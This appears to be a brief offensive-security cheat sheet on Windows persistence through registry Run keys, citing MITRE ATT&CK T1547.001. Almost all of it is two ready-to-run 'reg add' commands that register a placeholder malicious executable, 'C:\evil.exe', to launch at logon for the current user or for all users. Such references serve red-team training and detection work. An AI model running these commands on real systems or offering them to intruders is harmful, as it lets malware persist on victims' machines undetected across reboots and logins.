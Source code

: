 # Registry Run Keys for Persistence

## Register Malicious Executable to Run when Users Log In

```powershell
# The malicious executable will start when the current user logs in. 
reg add HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v Evil /t REG_SZ /d "C:\evil.exe" /f

# The malicious executable will start when any users log in.
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v Evil /t REG_SZ /d "C:\evil.exe" /f
```

## Resources

- [MITRE ATT&CK](https://attack.mitre.org/techniques/T1547/001/)